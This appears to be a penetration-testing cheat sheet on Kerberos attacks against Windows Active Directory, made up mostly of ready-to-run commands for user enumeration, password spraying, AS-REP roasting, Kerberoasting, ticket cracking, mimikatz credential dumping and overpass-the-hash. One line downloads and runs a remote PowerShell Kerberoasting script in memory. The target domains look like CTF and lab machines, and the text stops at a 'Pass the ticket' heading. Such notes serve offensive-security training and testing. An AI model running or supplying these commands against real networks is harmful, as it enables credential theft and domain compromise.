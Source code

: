 `! SYNC TIME WITH THE DC BEFORE TESTING!`

```
sudo ntpdate 192.168.188.165
```

1. Enumerate users <-- wordlist of possible domain usernames required

```
kerbrute userenum --dc DC01.heist.offsec -d heist.offsec users


kerbrute userenum -d scrm.local --dc scrm.local /usr/share/wordlists/kerberos_enum_userlists/A-ZSurnames.txt
```

2. Brute force + Password spraying

```
paste users passwords | sed 's/\t/:/g' >> user_password

kerbrute bruteforce --dc DC01.heist.offsec -d heist.offsec user_password 

kerbrute passwordspray --dc DC01.heist.offsec -d heist.offsec users "password"
```

VIM tip `:%s/.*/&:&` to create user:user list from users list

3. AS-REProast

```
#Try all the usernames in usernames.txt

python GetNPUsers.py jurassic.park/ -usersfile usernames.txt -format john -outputfile hashes.asreproast


#Use domain creds to extract targets and target them

GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/' -format john

while read p; do GetNPUsers.py egotistical-bank.local/"$p" -request -no-pass - dc-ip 10.10.10.175 >> hash.txt; done < unames.txt
```

use john to crack the ticket

```
john --format:krb5asrep /tmp/Kerberos --wordlist=/tmp/word
```

4. Kerberoasting

```
python GetUserSPNs.py <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file>

.\Rubeus.exe kerberoast /outfile:<output_TGSs_file>


iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat <TGSs_format [hashcat | john]> | % { $_.Hash } | Out-File -Encoding ASCII <output_TGSs_file>
```

for kerberos auth

```
impacket-getTGT scrm.local/ksimpson:ksimpson

export KRB5CCNAME=ksimpson.ccache
impacket-GetUserSPNs 'scrm.local/ksimpson:ksimpson' -request -k -dc-ip dc1.scrm.local
```

then try to crack the ticket

```
hashcat -m 13100 --force <TGSs_file> <passwords_file>

john --format=krb5tgs --wordlist=<passwords_file> <AS_REP_responses_file>
```

5. Overpass the Hash/Pass the Key (PTK) <-- use NTLM hash to request kerberos ticket

get the NTLM hash

```mimkatz
sekurlsa::logonpasswords


sekurlsa::pth /user:jeff_admin /domain:corp.com
/ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
```

```rubeus
.\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt
```

```
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
```

6. Pass the ticket